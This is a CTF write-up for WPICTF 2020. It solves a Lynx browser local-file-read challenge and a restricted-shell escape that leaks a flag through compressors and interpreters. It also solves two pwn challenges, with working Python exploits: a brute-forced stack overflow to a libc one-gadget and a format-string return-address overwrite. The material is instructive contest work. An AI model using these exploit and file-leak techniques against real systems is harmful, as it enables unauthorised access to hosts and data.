 # WPICTF 2020 

> Sat, 18 April 2020, 05:00 CST — Mon, 20 April 2020, 05:00 CST

# Linux

## LynxVE (50pt)

### Description

> `ssh ctf@lynxve.wpictf.xyz` 
>
> pass: `lynxVE` 
>
> made by: acurless

### Analysis

> [Lynx](https://lynx.invisible-island.net/) is a text Web-Browser 

We can visit local files in this browser by `file://` protocol:

```bash
file://localhost/etc/fstab
file:///etc/fstab
```

> Examples from [wikipedia](https://en.wikipedia.org/wiki/File_URI_scheme#Unix)

### Solution

Type `G` and input URL=`file:///` to visit local files:

![](http://image.taqini.space/img/20200419021852.png)

Finally we can find `flag` in folder `/home/ctf/` and then read it:

![](http://image.taqini.space/img/20200419021518.png)

> WPI{lynX_13_Gr8or_Th@n_Chr0m1Um}



## Suckmore Shell 2.0 (200pt)

### Description

> After its abysmal performance at WPICTF  2019, suckmore shell v1 has been replaced with a more secure, innovative and performant version, aptly named suckmore shell V2. 
>
> `ssh smsh@smsh.wpictf.xyz` pass: `suckmore>suckless` 
>
> made by: acurless

### Solution

Here are some kinds of cmd can use to leak content of files:

* file viewer (`more`)
* compress/decompress cmd (`xz`, `tar`, `bzip2`)
* Language interpreter/assembler (`perl`, `as` )

#### File viewer

Use `more` command to view flag directly:
```bash
> more flag
echo "WPI{SUckmoreSoftwareN33dz2G3TitTogeTHER}"
```

#### Compress/decompress

Some cmd (with or without options) can print content of file during compress/decompress process

```bash
> xz flag
�7zXZ�ִF!t/�/echo "WPI{SUckmoreSoftwareN33dz2G3TitTogeTHER}"
�r����`�H0�@�>��}YZ> ls
```

```bash
> tar cvf a.tar flag
flag
> tar xvf a.tar
flag
echo "WPI{SUckmoreSoftwareN33dz2G3TitTogeTHER}"
```

```bash
> bzip2 flag
> bzip2 -c -d flag.bz2
echo "WPI{SUckmoreSoftwareN33dz2G3TitTogeTHER}"
```

#### Language interpreter/assembler

Error information of language interpreter/assembler may print the content of files:

```bash
> perl flag
String found where operator expected at flag line 1, near "echo "WPI{SUckmoreSoftwareN33dz2G3TitTogeTHER}""
    (Do you need to predeclare echo?)
syntax error at flag line 1, near "echo "WPI{SUckmoreSoftwareN33dz2G3TitTogeTHER}""
Execution of flag aborted due to compilation errors.
```

```bash
> as flag
flag: Assembler messages:
flag:1: Error: no such instruction: `echo "WPI{SUckmoreSoftwareN33dz2G3TitTogeTHER}"'
```



# Pwn

## dorsia1 (100pt)

### Description

> http://us-east-1.linodeobjects.com/wpictf-challenge-files/dorsia.webm The first card. 
>
> nc  dorsia1.wpictf.xyz 31337 or 31338 or 31339 
>
> made by: awg 
>
> Hint: Same libc as dorsia4, but you shouldn't need the file to solve.


### Attachment

[dorsia1](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/WPICTF2020/pwn/dorsia1/dorsia1) (not given, I download it after getshell)

### Analysis

We can get source code of this challenge from the first card:

![](http://image.taqini.space/img/cap_dorsia_00:00:06_01.jpg) 

`system+765772` is the address of one gadget in `libc2.27`, and there is a buffer overflow in stack. So we can overwrite the return address with address of one gadget.

### Solution

We can't get the precise offset between buffer `a` and return address, but we know the approximate range. So try it:

```python
for i in range(4,20):
    p = remote('dorsia1.wpictf.xyz',31338)
    og = eval(p.recv(14))
    print 'og',hex(og)
    p.recv()
    offset = 69+i
    payload = 'A'*offset
    payload += p64(og)
    print "[+] ",i
    print payload
    p.sendline(payload)
    p.interactive()
```

> final offset is 77

### More

you can download full exp from my [github](https://github.com/TaQini/ctf/tree/master/WPICTF2020/pwn/dorsia1) 



## dorsia3 (250pt)

### Description

> http://us-east-1.linodeobjects.com/wpictf-challenge-files/dorsia.webm The third card. 
>
> nc dorsia3.wpictf.xyz 31337 or 31338 or 31339 
>
> made by: awg

### Attachment

[nanoprint](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/WPICTF2020/pwn/nanoprint/nanoprint), [libc](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/WPICTF2020/pwn/nanoprint/libc.so.6)

### Analysis

The third card:

![](http://image.taqini.space/img/cap_dorsia_00:00:53_02.jpg)

`system-288` is an address of `one gadget` in libc and `a` is a buffer in stack. There is a format string vulnerability and we can use it to modify return address to the address of `one gadget`.

### Solution

very common fmtstr attack:

```python
stack = eval(p.recv(10))
system = eval(p.recv(10))
info_addr('stack',stack)
info_addr('system',system)
ret = stack+0x71
info_addr('ret',ret)

payload = '%%%dc%%14$hn'%((system)&0xffff) +'%%%dc%%15$hn'%((((system>>16)-(system))%0x10000)&0xffff)
payload = payload.ljust(29,'B')
payload += p32(ret) + p32(ret+2)

sl(payload)
```


### More

you can download full exp from my [github](https://github.com/TaQini/ctf/tree/master/WPICTF2020/pwn/nanoprint) 

